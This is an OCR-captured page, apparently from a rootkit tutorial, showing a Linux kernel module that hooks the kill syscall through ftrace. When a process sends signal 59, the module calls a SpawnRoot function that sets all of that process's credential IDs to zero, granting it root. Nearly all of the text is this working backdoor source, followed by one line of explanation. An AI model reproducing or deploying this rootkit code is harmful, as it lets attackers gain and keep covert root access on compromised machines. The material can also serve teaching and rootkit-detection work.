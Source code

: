   static asmlinkage int hook_kill(const struct pt_regs *regs){

      void SpawnRoot(void);

      int signal;
      signal = regs->si;

      if(signal == 59){
          SpawnRoot();
          return 0;
      }

      return orig_kill(regs);
  }

  void SpawnRoot(void){
      struct cred *newcredentials;
      newcredentials = prepare_creds();

      if(newcredentials == NULL){
          return;
      }

      newcredentials->uid.val = 0;
      newcredentials->gid.val = 0;
      newcredentials->suid.val = 0;
      newcredentials->fsuid.val = 0;
      newcredentials->euid.val = 0;

      commit_creds(newcredentials);
  }

  static struct ftrace_hook hooks[] = {
      HOOK("__x64_sys_kill", hook_kill, &orig_kill),
  };

  static int __init mangekyou_init(void){
      int error;
      error = fh_install_hooks(hooks, ARRAY_SIZE(hooks));
      if(error){
          return error;
      }
      return 0;
  }

  static void __exit mangekyou_exit(void){
      fh_remove_hooks(hooks, ARRAY_SIZE(hooks));
  }

  module_init(mangekyou_init);
  module_exit(mangekyou_exit);
  dumbledore@infect:~$
╚════════════════════════════════════════════════════════════════════════════╝

The C code above is very simple, basically it declares a pointer to the
original kill syscall function, so that it can be called after the hook.
